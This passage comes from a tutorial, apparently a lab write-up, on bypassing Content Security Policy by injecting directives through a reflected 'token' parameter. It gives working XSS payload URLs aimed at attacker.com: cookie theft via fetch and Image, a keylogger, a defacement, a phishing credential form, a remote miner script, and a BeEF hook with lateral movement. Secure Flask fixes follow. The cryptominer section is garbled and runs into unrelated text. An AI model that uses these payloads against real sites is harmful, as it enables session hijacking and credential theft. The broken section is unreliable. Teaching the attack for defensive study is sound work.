?search=<script>fetch('https://attacker.com/steal?c='+document.cookie)</script>&token=;script-src-elem 'unsafe-inline';connect-src *

Breaking it down:

Search payload:
<script>
fetch('https://attacker.com/steal?c=' + document.cookie)
</script>

Token payload:
;script-src-elem 'unsafe-inline';connect-src *

Why connect-src *?
└── Original CSP may block fetch() to external domains
    └── connect-src * allows connections anywhere
        └── Cookie exfiltration successful! 💀

Complete attack chain:
1. Victim visits malicious URL
2. CSP bypassed with script-src-elem
3. connect-src overridden to allow external fetch
4. Inline script executes
5. fetch() sends cookie to attacker
6. Attacker receives: /steal?c=session=abc123; token=xyz789
7. Session hijacked! 💥

Alternative with Image:
?search=<script>new Image().src='https://attacker.com/log?c='+document.cookie</script>&token=;script-src-elem 'unsafe-inline';img-src *

Why this works:
└── Overrides img-src to allow external images
    └── Image request sends cookie in URL
        └── Logged on attacker server! ✓
```

---

### **Variation 3: Keylogger Installation**

```http
Install persistent keylogger:

Exploit URL:
?search=<script>document.onkeypress=e=>fetch('https://attacker.com/keys',{method:'POST',body:e.key})</script>&token=;script-src-elem 'unsafe-inline';connect-src *

Payload breakdown:

JavaScript:
document.onkeypress = e => 
  fetch('https://attacker.com/keys', {
    method: 'POST',
    body: e.key
  })

Effect:
├── Captures every keypress
├── Sends to attacker server
└── Logs passwords, messages, etc. 💀

More sophisticated version:
<script>
document.addEventListener('keypress', e => {
  fetch('https://attacker.com/log', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({
      key: e.key,
      target: e.target.name,
      url: location.href,
      time: Date.now()
    })
  });
});
</script>

Captures:
├── Which key pressed
├── Which form field (target)
├── Current page URL
└── Timestamp
    └── Complete context! 💣
```

---

### **Variation 4: Page Defacement**

```http
Deface the page completely:

Exploit URL:
?search=<script>document.body.innerHTML='<h1>Hacked by Attacker!</h1><p>This site is vulnerable to CSP bypass XSS</p>'</script>&token=;script-src-elem 'unsafe-inline'

Effect:
└── Entire page replaced with attacker content
    └── Visible defacement
        └── Reputation damage! ⚠️

Phishing version:
<script>
document.body.innerHTML = `
  <div style="max-width:400px;margin:50px auto;padding:20px;border:1px solid #ccc">
    <h2>Session Expired</h2>
    <p>Please re-enter your credentials:</p>
    <form action="https://attacker.com/phish" method="POST">
      <input type="text" name="username" placeholder="Username" required>
      <input type="password" name="password" placeholder="Password" required>
      <button type="submit">Login</button>
    </form>
  </div>
`;
</script>

Effect:
├── Looks like legitimate login form
├── Submits to attacker server
└── Credentials stolen! 💀
```

---

### **Variation 5: Cryptocurrency Miner**

```http
Load external mining script:

Exploit URL:
?search=<script src="https://attacker.com/miner.js"></script>&token=;script-src-elem https://attacker.com

Why this works:
Original policy: script-src 'self'
Injected policy: script-src-elem https://attacker.com

Result:
└── <script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              </script>&token=;script-src-elem https://attacker.com

The hook.js:
(function() {
  // BeEF framework hook
  var s = document.createElement('script');
  s.src = 'https://attacker.com/beef/hook.js';
  document.head.appendChild(s);
})();

Stage 2: BeEF Controls Browser
Attacker can now:
├── Capture screenshots
├── Log keystrokes
├── Redirect user
├── Execute arbitrary commands
└── Full browser control! 💀

Stage 3: Lateral Movement
Using BeEF modules:
├── Port scan internal network
├── Exploit other internal systems
├── Pivot to other users
└── Network compromise! 💣

Complete exploit chain:
1. User visits malicious URL
2. CSP bypassed
3. External script loads
4. BeEF hook established
5. Attacker controls browser
6. Internal network scanned
7. Other systems compromised
8. Full infrastructure breach! ⚠️
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Remove User Input from CSP Headers (Best)**

```python
# ❌ VULNERABLE - User input in CSP header
from flask import Flask, request, make_response

app = Flask(__name__)

@app.route('/search')
def search_vulnerable():
    search = request.args.get('search', '')
    token = request.args.get('token', '')  # USER INPUT!
    
    # Build CSP with user input - DANGEROUS!
    csp = f"default-src 'self'; script-src 'self'; report-uri /csp-report?token={token}"
    
    response = make_response(render_template('results.html', search=search))
    response.headers['Content-Security-Policy'] = csp
    return response

# ✅ SECURE - No user input in CSP
@app.route('/search')
def search_secure():
    search = request.args.get('search', '')
    
    # Static CSP with no user input
    csp = "default-src 'self'; script-src 'self'; report-uri /csp-report"
    
    # Properly escape search for HTML context
    from markupsafe import escape
    safe_search = escape(search)
    
    response = make_response(render_template('results.html', search=safe_search))
    response.headers['Content-Security-Policy'] = csp
    return response

# Benefits:
# ✅ No user input in CSP
# ✅ No injection possible
# ✅ CSP remains secure
# ✅ Simple and effective! 🛡️
```

---

### **Fix 2: Use Server-Generated Tokens (If Needed)**

```python
# ✅ SECURE - Server-controlled tokens only

import secrets
import redis

# Initialize Redis for token storage
token_store = redis.Redis()

@app.route('/search')
def search_with_secure_tokens():
    search = request.args.get('search', '')
    user_token = request.args.get('token', '')
    
    # Generate secure token server-side
    if not user_token:
        secure_token = secrets.token_urlsafe(32)
        # Store for validation
        token_store.setex(f"csp_token:{secure_token}", 3600, "valid")
    else:
        # Validate user-provided token
        if token_store.exists(f"csp_token:{user_token}"):
            secure_token = user_token
        else:
            # Invalid token - use default
            secure_token = "default"
    
    # Use validated token in CSP
    csp = f"default-src 'self'; script-src 'self'; report-uri /csp-report?token={secure_token}"
    
    from markupsafe import escape
    response = make_response(render_template('results.html', search=escape(search)))
    response.headers['Content-Security-Policy'] = csp
    return response

# Why this is secure:
# ✅ Tokens generated server-side
# ✅ Validated against allowlist
# ✅ User can't inject arbitrary values
# ✅ No semicolons or directives in tokens
# ✅ CSP injection impossible! 🛡️
```

---

### **Fix 3: Use Modern report-to Directive**

```python
# ✅ SECURE - Use report-to instead of report-uri

@app.route('/search')
def search_with_report_to():
    search = request.args.get('search', '')
    
    # Use report-to (modern CSP)
    csp = "default-src 'self'; script-src 'self'; report-to csp-endpoint"
    
    # Define reporting endpoint separately
    reporting_endpoints = json.dumps({
        "group": "csp-endpoint",
        "max_age": 86400,
        "endpoints": [
            {"url": "/csp-report"}
        ]
    })
    
    from markupsafe import escape
    response = make_response(render_template('results.html', search=escape(search)))
    response.headers['Content-Security-Policy'] = csp
    response.headers['Reporting-Endpoints'] = reporting_endpoints
    return response

# Advantages:
# ✅ report-to doesn't use query parameters
# ✅ No user input in CSP
# ✅ More flexible reporting
# ✅ Modern and secure! 🛡️

# Note: Browser support varies
# Chrome: ✅ Full support
# Firefox: ⚠️ Partial support
# Safari: ❌ Limited support
# Consider using both for compatibility
```

---

### **Fix 4: Input Validation and Sanitization**

```python
# ✅ SECURE - Strict validation if user input is unavoidable

import re

def validate_csp_token(token):
    """
    Validate token to prevent CSP injection.
    Returns validated token or None if invalid.
    """
    if not token:
        return None
    
    # Maximum length
    if len(token) > 64:
        return None
    
    # Only allow alphanumeric characters
    if not re.match(r'^[a-zA-Z0-9]+$', token):
        return None
    
    # Specifically block CSP-related characters
    dangerous_chars = [';', ':', "'", '"', '*', '(', ')', '{', '}', '<', '>', '/', '\\']
    if any(char in token for char in dangerous_chars):
        return None
    
    return token

@app.route('/search')
def search_with_validation():
    search = request.args.get('search', '')
    user_token = request.args.get('token', '')
    
    # Validate token
    safe_token = validate_csp_token(user_token)
    if not safe_token:
        safe_token = 'default'  # Fallback to safe default
    
    # Use validated token
    csp = f"default-src 'self'; script-src 'self'; report-uri /csp-report?token={safe_token}"
    
    from markupsafe import escape
    response = make_response(render_template('results.html', search=escape(search)))
    response.headers['Content-Security-Policy'] = csp
    return response

# Protection layers:
# ✅ Length validation
# ✅ Character allowlist (alphanumeric only)
# ✅ Dangerous character blocklist
# ✅ Fallback to safe default
# ✅ Multiple validation layers! 🛡️
```

---

### **Fix 5: Implement Nonce-Based CSP (Best Practice)**

```python
# ✅ SECURE - Use nonces for inline scripts

import secrets

@app.route('/search')
def search_with_nonce():
    search = request.args.get('search', '')
    
    # Generate unique nonce for this response
    nonce = secrets.token_urlsafe(16)
    
    # CSP with nonce - no 'unsafe-inline' needed!
    csp = f"default-src 'self'; script-src 'nonce-{nonce}' 'self'"
    
    from markupsafe import escape
    response = make_response(
        render_template('results.html', search=escape(search), nonce=nonce)
    )
    response.headers['Content-Security-Policy'] = csp
    return response

# Template (results.html):
"""
<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <h1>Search results for: {{ search }}</h1>
    
    <!-- Legitimate script with nonce - ALLOWED -->
    <script nonce="{{ nonce }}">
        // Safe inline script
        console.log('Page loaded');
    </script>
    
    <!-- Attacker's script without nonce - BLOCKED -->
    <!-- Even if reflected: <script>alert(1)</script> -->
    <!-- No nonce = CSP blocks it! -->
</body>
</html>
"""

# Benefits:
# ✅ Inline scripts require nonce
# ✅ Nonce changes per response (cryptographically random)
# ✅ Attacker can't guess/inject nonce
# ✅ Injected scripts have no nonce → BLOCKED
# ✅ Legitimate scripts have nonce → ALLOWED
# ✅ Best security without sacrificing functionality! 🛡️

# Note: Nonce must be:
# - Cryptographically random
# - Unique per response
# - Minimum 128 bits of entropy
# - Never reused or predictable
```

---
